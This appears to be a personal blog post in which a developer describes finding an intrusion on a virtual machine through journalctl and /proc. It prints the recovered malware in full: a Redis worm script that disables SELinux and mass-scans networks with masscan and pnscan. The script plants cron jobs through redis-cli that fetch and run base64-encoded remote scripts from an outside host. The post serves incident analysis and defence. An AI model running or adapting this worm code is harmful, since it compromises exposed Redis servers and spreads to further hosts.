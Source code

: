 ```yaml
---
title : A Journey into Unseen Threats on our VM
date : 2024-05-04T19:51:57.5757+05:30
tags : ['hacking']
---
```

As the sun set on a typical Saturday evening, I found myself engrossed in a blog titled "[Visualizing Malicious IP Addresses.](https://romeov.github.io/malicious_ip_addresses/malicious_ip_analysis.html)" The author shared clever ways to detect unauthorized attempts to access virtual machines via SSH, using commands like:

```sh
$ journalctl --since "-1d" -u sshd | grep "Failed password" | wc -l
$ journalctl --since "-1d" -u sshd | grep "Failed publickey" | wc -l
```

Curious, I decided to try these commands on our own VM. To my relief, the output was zero—no unauthorized login attempts. But my curiosity was piqued. I delved deeper into journalctl, discovering a command to display all Systemd logs with process IDs:

```sh
journalctl -f -o verbose
```

Upon executing the query on our VM, I encountered an intriguing error that immediately captured my attention.

```
 MESSAGE=/etc/.httpd/.../httpd: line 43: pnscan: command not found
```

"Pnscan?" I muttered to myself, furrowing my brows. A quick Google search revealed that "pnscan" is a tool for scanning network ports—a tool we certainly hadn't authorized on our VM.

Determined to unravel this mystery, I extracted the process ID from the journalctl logs and ventured into the depths of the `/proc` directory. Inside the PID folder, I hoped to glean more insights into this rogue process.

My first stop was the `cmdline` file, where I discovered the command that initiated the process 

```
 `/bin/bash/etc/.httpd/.../httpd`
```

It seemed innocuous enough—a command to run the Apache server. But something didn't add up. Next, I turned my attention to the `fd` folder, hoping to find clues in the standard output and standard error streams. To my surprise, there was nothing there—except for a mysterious file named `255`.

I cat the content of of the file and i got the below content

```sh
#!/bin/bash
setenforce 0 2>/dev/null
ulimit -u 50000
sleep 1
iptables -I INPUT 1 -p tcp --dport 6379 -j DROP 2>/dev/null
iptables -I INPUT 1 -p tcp --dport 6379 -s 127.0.0.1 -j ACCEPT 2>/dev/null
sleep 1
      
rm -rf .dat .shard .ranges .lan 2>/dev/null
sleep 1
echo 'config set dbfilename "backup.db"' > .dat
echo 'save' >> .dat
echo 'flushall' >> .dat
echo 'config set dir "/var/spool/cron/"' >> .dat
echo 'config set dbfilename "root"' >> .dat
echo 'set backup1 "\n\n\n*/2 * * * * echo Y2QxIGh0dHA6Ly9zLm5hLWNzLmNvbS9iMmY2MjgvYi5zaAo=|base64 -d|bash|bash \n\n"' >> .dat
echo 'set backup2 "\n\n\n*/3 * * * * echo d2dldCAtcSAtTy0gaHR0cDovL3MubmEtY3MuY29tL2IyZjYyOC9iLnNoCg==|base64 -d|bash|bash\n\n"' >> .dat
echo 'set backup3 "\n\n\n*/4 * * * * echo Y3VybCBodHRwOi8vcy5uYS1jcy5jb20vYjJmNjI4L2Iuc2gK|base64 -d|bash|bash\n\n"' >> .dat
echo c2V0IGJhY2t1cDQgIlxuXG5cbkBob3VybHkgIHB5dGhvbiAtYyBcImltcG9ydCB1cmxsaWIyOyBwcmludCB1cmxsaWIyLnVybG9wZW4oXCdodHRwOi8vXFxcXHMublxcYS1jXFxzLmNcXG9cbS90LnNoXCcpLnJlYWQoKVwiID4uMTtjaG1vZCAreCAuMTsuLy4xXG5cbiIK|base64 -d >>.dat
echo 'save' >> .dat
echo 'config set dir "/tmp"' >> .dat
echo 'flushall' >> .dat
echo 'config set dir "/var/spool/cron/crontabs"' >> .dat
echo 'save' >> .dat
echo 'set backup1 "\n\n\n*/2 * * * * root echo Y2QxIGh0dHA6Ly9zLm5hLWNzLmNvbS9iMmY2MjgvYi5zaAo=|base64 -d|bash|bash \n\n"' >> .dat
echo 'set backup2 "\n\n\n*/3 * * * * root echo d2dldCAtcSAtTy0gaHR0cDovL3MubmEtY3MuY29tL2IyZjYyOC9iLnNoCg==|base64 -d|bash|bash\n\n"' >> .dat
echo 'set backup3 "\n\n\n*/4 * * * * root echo Y3VybCBodHRwOi8vcy5uYS1jcy5jb20vYjJmNjI4L2Iuc2gK|base64 -d|bash|bash\n\n"' >> .dat
echo c2V0IGJhY2t1cDQgIlxuXG5cbkBob3VybHkgIHB5dGhvbiAtYyBcImltcG9ydCB1cmxsaWIyOyBwcmludCB1cmxsaWIyLnVybG9wZW4oXCdodHRwOi8vXFxcXHMublxcYS1jXFxzLmNcXG9cbS90LnNoXCcpLnJlYWQoKVwiID4uMTtjaG1vZCAreCAuMTsuLy4xXG5cbiIK|base64 -d >>.dat
echo 'config set dir "/etc/cron.d/"' >> .dat
echo 'config set dbfilename "zzh"' >> .dat
echo 'save' >> .dat
echo 'config set dir "/etc/"' >> .dat
echo 'config set dbfilename "crontab"' >> .dat
echo 'save' >> .dat
sleep 1
pnx=pnscan
[ -x /usr/local/bin/pnscan ] && pnx=/usr/local/bin/pnscan
[ -x /usr/bin/pnscan ] && pnx=/usr/bin/pnscan
while true
do
for x in $( echo -e "47\n39\n8\n121\n106\n120\n123\n65\n3\n101\n139\n99\n63\n81\n44\n18\n119\n100\n42\n49\n118\n54\n1\n50\n114\n182\n52\n13\n34\n112\n115\n111\n116\n16\n35\n117\n124\n59\n36\n103\n82\n175\n122\n129\n45\n152\n159\n113\n15\n61\n180\n172\n157\n60\n218\n176\n58\n204\n140\n184\n150\n193\n223\n192\n75\n46\n188\n183\n222\n14\n104\n27\n221\n211\n132\n107\n43\n212\n148\n110\n62\n202\n95\n220\n154\n23\n149\n125\n210\n203\n185\n171\n146\n109\n94\n219\n134" | sort -R ); do
for y in $( seq 0 255 | sort -R ); do
$pnx -t512 -R '6f 73 3a 4c 69 6e 75 78' -W '2a 31 0d 0a 24 34 0d 0a 69 6e 66 6f 0d 0a' $x.$y.0.0/16 6379 > .r.$x.$y.o
awk '/Linux/ {print $1, $3}' .r.$x.$y.o > .r.$x.$y.l
while read -r h p; do
cat .dat | redis-cli -h $h -p $p --raw &
done < .r.$x.$y.l
done
done
done
sleep 1
masscan --max-rate 10000 -p6379 --shard $( seq 1 22000 | sort -R | head -n1 )/22000 --exclude 255.255.255.255 0.0.0.0/0 2>/dev/null | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .shard
sleep 1
while read -r h p; do
cat .dat | redis-cli -h $h -p $p --raw 2>/dev/null 1>/dev/null &
done < .shard
sleep 1
masscan --max-rate 10000 -p6379 192.168.0.0/16 172.16.0.0/16 116.62.0.0/16 116.232.0.0/16 116.128.0.0/16 116.163.0.0/16 2>/dev/null | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .ranges
sleep 1
while read -r h p; do
cat .dat | redis-cli -h $h -p $p --raw 2>/dev/null 1>/dev/null &
done < .ranges
sleep 1
ip a | grep -oE '([0-9]{1,3}.?){4}/[0-9]{2}' 2>/dev/null | sed 's/\/\([0-9]\{2\}\)/\/16/g' > .inet
sleep 1
masscan --max-rate 10000 -p6379 -iL .inet | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .lan
sleep 1
while read -r h p; do
cat .dat | redis-cli -h $h -p $p --raw 2>/dev/null 1>/dev/null &
done < .lan
sleep 60
rm -rf .dat .shard .ranges .lan 2>/dev/null

```


The script appears to conduct a Redis database backup, despite our VM not utilizing Redis. Of particular interest is the line:

```bash
masscan --max-rate 10000 -p6379 --shard $( seq 1 22000 | sort -R | head -n1 )/22000 --exclude 255.255.255.255 0.0.0.0/0 2>/dev/null | awk '{print $6, substr($4, 1, length($4)-4)}' | sort | uniq > .shard
```

1. **masscan**: Performs a network scan.
   - `--max-rate 10000`: Limits packet sending to 10,000 per second.
   - `-p6379`: Targets port 6379, commonly associated with Redis.
   - `--shard $( seq 1 22000 | sort -R | head -n1 )/22000`: Divides the scan into shards, choosing a random shard from 1 to 22000.
   - `--exclude 255.255.255.255 0.0.0.0/0`: Excludes specific IP ranges from the scan.
   - `2>/dev/null`: Suppresses error messages.
   
2. **`| awk '{print $6, substr($4, 1, length($4)-4)}'`**:
   - Processes `masscan` output to extract status and IP/port information.
   
3. **`| sort | uniq > .shard`**:
   - Sorts and removes duplicates from the extracted data, saving it to a file named `.shard`.

In summary, the script attempts to scan and connect to Redis servers across different networks, possibly with intentions to execute commands outlined in the `.dat` file, which could be malicious. Furthermore, it tries to disable SELinux and adjust user limits, suggesting unauthorized access and system modification. This underscores the importance of vigilance in monitoring and securing systems against potential threats.

the content of .dat file was 

```sh
config set dbfilename "backup.db"
save
flushall
config set dir "/var/spool/cron/"
config set dbfilename "root"
set backup1 "\n\n\n*/2 * * * * echo Y2QxIGh0dHA6Ly9zLm5hLWNzLmNvbS9iMmY2MjgvYi5zaAo=|base64 -d|bash|bash \n\n"
set backup2 "\n\n\n*/3 * * * * echo d2dldCAtcSAtTy0gaHR0cDovL3MubmEtY3MuY29tL2IyZjYyOC9iLnNoCg==|base64 -d|bash|bash\n\n"
set backup3 "\n\n\n*/4 * * * * echo Y3VybCBodHRwOi8vcy5uYS1jcy5jb20vYjJmNjI4L2Iuc2gK|base64 -d|bash|bash\n\n"
set backup4 "\n\n\n@hourly  python -c \"import urllib2; print urllib2.urlopen(\'http://\\\\s.n\\a-c\\s.c\\o\m/t.sh\').read()\" >.1;chmod +x .1;./.1\n\n"
save
config set dir "/tmp"
flushall
config set dir "/var/spool/cron/crontabs"
save
set backup1 "\n\n\n*/2 * * * * root echo Y2QxIGh0dHA6Ly9zLm5hLWNzLmNvbS9iMmY2MjgvYi5zaAo=|base64 -d|bash|bash \n\n"
set backup2 "\n\n\n*/3 * * * * root echo d2dldCAtcSAtTy0gaHR0cDovL3MubmEtY3MuY29tL2IyZjYyOC9iLnNoCg==|base64 -d|bash|bash\n\n"
set backup3 "\n\n\n*/4 * * * * root echo Y3VybCBodHRwOi8vcy5uYS1jcy5jb20vYjJmNjI4L2Iuc2gK|base64 -d|bash|bash\n\n"
set backup4 "\n\n\n@hourly  python -c \"import urllib2; print urllib2.urlopen(\'http://\\\\s.n\\a-c\\s.c\\o\m/t.sh\').read()\" >.1;chmod +x .1;./.1\n\n"
config set dir "/etc/cron.d/"
config set dbfilename "zzh"
save
config set dir "/etc/"
config set dbfilename "crontab"
save
```

This script setup cron job to excute the script from remote url `http://s.na-cs.com/b2f628/b.sh`encoded in base64 format (`echo Y2QxIGh0dHA6Ly9zLm5hLWNzLmNvbS9iMmY2MjgvYi5zaAo=|base64`), I encountered an unexpected roadblock—the URL was inaccessible. Despite my efforts to uncover the script's intentions through the `/proc` file system, my investigation yielded no further insights.

Ultimately, I made the decision to delete the compromised VM and initiate the creation of a new one, ensuring the integrity of our system's security.
